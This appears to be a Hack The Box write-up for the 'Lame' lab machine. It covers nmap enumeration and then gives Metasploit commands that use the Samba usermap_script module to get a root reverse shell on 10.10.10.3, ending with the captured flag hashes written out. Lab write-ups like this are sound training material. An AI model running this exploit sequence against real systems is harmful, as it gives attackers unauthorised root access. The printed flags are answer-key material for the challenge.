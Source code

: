# 🧠 HTB – Lame

**Difficulty:** Easy  
**Category:** Exploitation  
**Tools Used:** Nmap, Metasploit  
**Privileges:** root (direct)

---

## 🔍 Enumeration

Initial Nmap scan revealed the following open ports:

PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.3.4
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1
139/tcp open netbios-ssn Samba smbd 3.X - 4.X
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian


Anonymous FTP login was allowed, but nothing useful was found there.

Samba version `3.0.20` caught our attention — known for multiple vulnerabilities.

---

## 💥 Exploitation

We searched for relevant exploits in Metasploit:

search samba


We selected the following module:

exploit/multi/samba/usermap_script

This module exploits the `username map script` feature, allowing remote command execution as **root**.

We configured the target and listener:

```bash
use exploit/multi/samba/usermap_script
set RHOST 10.10.10.3
set LHOST <your_IP>
run
A root shell was obtained immediately.

🧑‍💻 Privilege Escalation
Not necessary — we already had a root shell.

Confirmed with:

whoami     # root
id         # uid=0(root)
🏁 Flags

cat /root/root.txt
# 469af12ab221475ad2a4d166f6b53fd9

cat /home/makis/user.txt
# 07d0787ab660ba7a82d1b137477c14d6
✅ Root access obtained directly via Samba RCE.
A great example of exploiting legacy services using Metasploit.


